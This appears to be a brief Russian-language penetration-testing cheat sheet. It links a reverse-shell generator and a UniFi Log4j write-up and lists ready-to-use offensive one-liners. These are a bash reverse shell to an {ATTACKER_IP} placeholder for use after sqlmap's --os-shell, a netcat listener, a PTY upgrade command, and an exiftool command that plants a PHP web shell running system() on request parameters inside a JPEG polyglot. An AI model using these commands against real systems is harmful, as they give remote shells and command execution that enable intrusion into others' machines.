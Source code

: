 ### Reverse Shell Generator
[revshells.com](https://www.revshells.com)

Переход на удобный шелл:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Проброс шелла с sqlmap --os-shell:
`bash -c "bash -i >& /dev/tcp/{ATTACKER_IP}/443 0>&1"`
Слушать:
`sudo nc -lvnp 443`

[UniFi Log4j](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

Полиглотный шелл:
`exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" <jpeg-file-name>.jpeg -o polyglot.php`